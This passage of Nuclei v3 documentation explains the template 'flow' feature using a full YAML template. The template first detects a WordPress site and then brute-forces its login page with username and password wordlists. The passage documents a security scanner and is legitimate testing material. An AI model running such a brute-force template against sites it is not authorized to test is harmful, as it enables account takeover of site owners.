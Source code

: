 ````markdown

With addition of flow in Nuclei v3 we can re-write this template to first check if target is a wordpress site, if yes then bruteforce login with default credentials and this can be achieved by simply adding one line of content  i.e `flow: http(1) && http(2)` and nuclei will take care of everything else.

```yaml
id: wordpress-bruteforce

info:
  name: WordPress Login Bruteforce
  author: pdteam
  severity: high

flow: http(1) && http(2)

http:
  - method: GET
    path:
      - "{{BaseURL}}/wp-login.php"

    matchers:
      - type: word
        words:
          - "WordPress"

  - method: POST
    path:
      - "{{BaseURL}}/wp-login.php"

    body: |
        log={{username}}&pwd={{password}}&wp-submit=Log+In

    attack: clusterbomb
    payloads:
      users: helpers/wordlists/wp-users.txt
      passwords: helpers/wordlists/wp-passwords.txt

    matchers:
      - type: dsl
        dsl:
          - status_code == 302
          - contains_all(header, "/wp-admin","wordpress_logged_in")
        condition: and
```

The update template now seems straight forward and easy to understand. we are first checking if target is a wordpress site and then executing bruteforce requests. This is just a simple example of conditional execution and flow accepts any Javascript (ECMAScript 5.1) expression/code so you are free to craft any conditional execution logic you want.

## Request Execution Orchestration

Flow is a powerful Nuclei feature that provides enhanced orchestration capabilities for executing requests. The simplicity of conditional execution is just the beginning. With ﻿flow, you can:

- Iterate over a list of values and execute a request for each one
- Extract values from a request, iterate over them, and perform another request for each
- Get and set values within the template context (global variables)
- Write output to stdout for debugging purposes or based on specific conditions
- Introduce custom logic during template execution
- Use ECMAScript 5.1 JavaScript features to build and modify variables at runtime
- Update variables at runtime and use them in subsequent requests.
````